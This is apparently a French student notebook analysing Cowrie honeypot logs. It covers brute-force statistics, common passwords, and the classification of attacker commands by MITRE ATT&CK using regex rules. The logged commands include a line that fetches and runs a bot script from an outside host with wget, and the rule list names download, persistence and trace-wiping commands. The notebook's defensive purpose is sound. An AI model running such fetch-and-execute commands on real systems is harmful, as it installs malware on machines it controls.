# Analyse des logs Cowrie
Projet honeypot, module durcissement systèmes.

In [1]:
import re
import pandas as pd
import matplotlib.pyplot as plt

df = pd.read_json("../logs-exemple/cowrie-test.json", lines=True)
df["timestamp"] = pd.to_datetime(df["timestamp"])
print(df.shape)
df.head()

(14, 14)


,eventid,src_ip,src_port,dst_port,session,protocol,timestamp,version,username,password,input,url,shasum,duration
0,cowrie.session.connect,198.51.100.7,51234.0,2222.0,a1b2c3d4,ssh,2026-11-10 08:15:02.123456+00:00,NaN,NaN,NaN,NaN,NaN,NaN,NaN
1,cowrie.client.version,198.51.100.7,NaN,NaN,a1b2c3d4,NaN,2026-11-10 08:15:02.500000+00:00,SSH-2.0-libssh_0.9.6,NaN,NaN,NaN,NaN,NaN,NaN
2,cowrie.login.failed,198.51.100.7,NaN,NaN,a1b2c3d4,NaN,2026-11-10 08:15:03.100000+00:00,NaN,root,123456,NaN,NaN,NaN,NaN
3,cowrie.login.failed,198.51.100.7,NaN,NaN,a1b2c3d4,NaN,2026-11-10 08:15:03.900000+00:00,NaN,admin,admin,NaN,NaN,NaN,NaN
4,cowrie.login.success,198.51.100.7,NaN,NaN,a1b2c3d4,NaN,2026-11-10 08:15:04.700000+00:00,NaN,root,password,NaN,NaN,NaN,NaN


## Statistiques générales

In [2]:
print("Événements totaux :", len(df))
print("IP uniques :", df["src_ip"].nunique())
print("Sessions uniques :", df["session"].nunique())
print()
print(df["eventid"].value_counts())

Événements totaux : 14
IP uniques : 2
Sessions uniques : 2

eventid
cowrie.login.failed             4
cowrie.command.input            3
cowrie.session.connect          2
cowrie.session.closed           2
cowrie.client.version           1
cowrie.login.success            1
cowrie.session.file_download    1
Name: count, dtype: int64


## Identifiants et mots de passe

In [3]:
logins = df[df["eventid"].isin(["cowrie.login.failed", "cowrie.login.success"])]

print("Top utilisateurs :")
print(logins["username"].value_counts().head(20))
print()
print("Top mots de passe :")
print(logins["password"].value_counts().head(20))
print()
print("Top couples :")
print((logins["username"] + ":" + logins["password"]).value_counts().head(20))

Top utilisateurs :
username
root     3
admin    1
pi       1
Name: count, dtype: int64

Top mots de passe :
password
123456       2
admin        1
password     1
raspberry    1
Name: count, dtype: int64

Top couples :
root:123456      2
admin:admin      1
root:password    1
pi:raspberry     1
Name: count, dtype: int64




In [4]:
top_pwd = logins["password"].value_counts().head(10)

plt.figure(figsize=(8, 4))
top_pwd.plot(kind="barh")
plt.title("Top 10 des mots de passe testés")
plt.xlabel("Nombre de tentatives")
plt.gca().invert_yaxis()
plt.tight_layout()
plt.savefig("../graphiques/top-mots-de-passe.png", dpi=150)
plt.show()

## Commandes par session

In [5]:
cmds = df[df["eventid"] == "cowrie.command.input"][["session", "src_ip", "timestamp", "input"]]
cmds.sort_values(["session", "timestamp"])

,session,src_ip,timestamp,input
5,a1b2c3d4,198.51.100.7,2026-11-10 08:15:06.000+00:00,uname -a
6,a1b2c3d4,198.51.100.7,2026-11-10 08:15:07.200+00:00,cat /proc/cpuinfo | grep name | wc -l
7,a1b2c3d4,198.51.100.7,2026-11-10 08:15:09.400+00:00,cd /tmp; wget http://203.0.113.50/bot.sh; chmo...


## Classification des commandes (MITRE ATT&CK)

In [6]:
regles = [
    (r"\buname\b|/proc/cpuinfo|\blscpu\b|\bhostname\b|/etc/os-release", "Reconnaissance système",   "T1082"),
    (r"\bwhoami\b|\bid\b|\bwho\b|\bw\b|\busers\b",                   "Découverte utilisateur",   "T1033"),
    (r"wget|curl|tftp|ftpget",                                              "Téléchargement de charge", "T1105"),
    (r"chmod \+x|\./|sh |bash ",                                           "Exécution de script",      "T1059.004"),
    (r"crontab|authorized_keys|\.ssh",                                      "Persistance",              "T1053 / T1098"),
    (r"rm -rf|history -c|unset HISTFILE",                                   "Effacement de traces",     "T1070"),
    (r"xmrig|minerd|stratum|cpuminer",                                      "Minage de crypto",         "T1496"),
]

def classer(cmd):
    return [(i, t) for motif, i, t in regles if re.search(motif, cmd)]

In [7]:
cmds = df[df["eventid"] == "cowrie.command.input"].copy()
cmds["classification"] = cmds["input"].apply(classer)

detail = cmds.explode("classification").dropna(subset=["classification"])
detail["intention"] = detail["classification"].str[0]
detail["technique"] = detail["classification"].str[1]
detail[["session", "input", "intention", "technique"]]

,session,input,intention,technique
5,a1b2c3d4,uname -a,Reconnaissance système,T1082
6,a1b2c3d4,cat /proc/cpuinfo | grep name | wc -l,Reconnaissance système,T1082
7,a1b2c3d4,cd /tmp; wget http://203.0.113.50/bot.sh; chmo...,Téléchargement de charge,T1105
7,a1b2c3d4,cd /tmp; wget http://203.0.113.50/bot.sh; chmo...,Exécution de script,T1059.004


In [8]:
synthese = (detail.groupby(["intention", "technique"])
                  .size()
                  .reset_index(name="occurrences")
                  .sort_values("occurrences", ascending=False))
synthese

,intention,technique,occurrences
1,Reconnaissance système,T1082,2
0,Exécution de script,T1059.004,1
2,Téléchargement de charge,T1105,1


## Brute force et accès obtenus

In [9]:
nb_echecs = (df["eventid"] == "cowrie.login.failed").sum()
nb_ip = df["src_ip"].nunique()
print(f"T1110 (Brute Force) : {nb_echecs} échecs de connexion depuis {nb_ip} IP")

succes = df[df["eventid"] == "cowrie.login.success"][["src_ip", "username", "password"]]
print("\nConnexions réussies (accès obtenu au leurre) :")
print(succes)

T1110 (Brute Force) : 4 échecs de connexion depuis 2 IP

Connexions réussies (accès obtenu au leurre) :
         src_ip username  password
4  198.51.100.7     root  password


## Sauvegarde des preuves

In [10]:
synthese.to_csv("../preuves/synthese-mitre.csv", index=False)
detail[["session", "src_ip", "timestamp", "input", "intention", "technique"]].to_csv(
    "../preuves/commandes-classees.csv", index=False)
print("CSV écrits dans ../preuves/")

CSV écrits dans ../preuves/
